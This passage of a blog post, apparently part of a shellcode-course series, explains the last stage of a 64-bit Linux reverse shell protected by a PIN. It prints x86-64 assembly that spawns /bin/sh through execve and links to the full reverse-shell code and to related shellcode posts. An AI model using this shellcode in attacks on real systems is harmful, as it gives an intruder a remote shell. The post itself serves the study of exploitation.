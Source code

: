 #### <b>Part 3</b> - execute shell via execve()

Let's assume that the user has entered the correct PIN code and we have reached to the point where we need to execute the shell. `execve()` takes 3 arguments: the file we want to execute which for us is the `/bin/sh`, as we it is a pointer `const char *filename` we need RDI to contain the address on which we have stored the program name. This is the reason why we first move the string in hex to RBX, push on the top of the stack and then move the address to RDI.

Next we need to get the address of an array of string constants `{"/bin/sh", NULL};` to RSI. For that we can just push the address we have at RDI to the top of the stack and move that stack address to RSI.

Third, we do not want to pass any environment variables, so we can make the 3rd argument just 0. So to finish it up, let's check the `execve()` syscall number via `ausyscall execve`, read it to RAX and have a go on the last syscall for this task.

```js
execve:
	;int execve(const char *filename, char *const argv[], char *const envp[]);
	xor rdi, rdi
	xor rax,rax
	push rax

	mov rbx, 0x68732f6e69622f
	push rbx
	mov rdi, rsp

	push rax
	mov rdx, rsp

	push rdi
	mov rsi, rsp

	add rax, 59
	syscall
```

There you have it! <3

* * *


* Full assembly code can be found at:<br> [https://github.com/silviavali/SLAE/blob/master/task2/reverseshell.nasm](https://github.com/silviavali/SLAE/blob/master/task2/reverseshell.nasm)
* Full C code:<br> [https://github.com/silviavali/SLAE/blob/master/task2/reverseshell.c](https://github.com/silviavali/SLAE/blob/master/task2/reverseshell.c)

#### Related posts:

* [64-bit bindshell with a passphrase protection](https://silviavali.github.io/blog/2019-01-15-blog-SLAE1/)
* [64-bit reverse shell with passphrase protection](https://silviavali.github.io/blog/2019-01-25-blog-SLAE2/)
* [Egghunter (64-bit Linux) using access() syscall](https://silviavali.github.io/blog/2019-02-25-blog-SLAE3/)
* [Writing a 64-bit custom encoder (reversed byte order of 4 byte chunks)](https://silviavali.github.io/blog/2019-02-25-blog-SLAE4/)
* [Msfvenom generated Exec shellcode analysis - exec shellcode](https://silviavali.github.io/blog/2019-05-01-blog-SLAE51/)
* [Msfvenom generated bind_tcp shellcode analysis](https://silviavali.github.io/blog/2019-05-01-blog-SLAE52/)
* [Msfvenom generated shell_reverse_tcp payload](https://silviavali.github.io/blog/2019-05-01-blog-SLAE53/)
* [Polymorphic shellcodes for samples taken from Shell-Storm](https://silviavali.github.io/blog/2019-05-01-blog-SLAE6/)
* [Custom encrypter - One-time pad (OTP)](https://silviavali.github.io/blog/2019-05-01-blog-SLAE7/)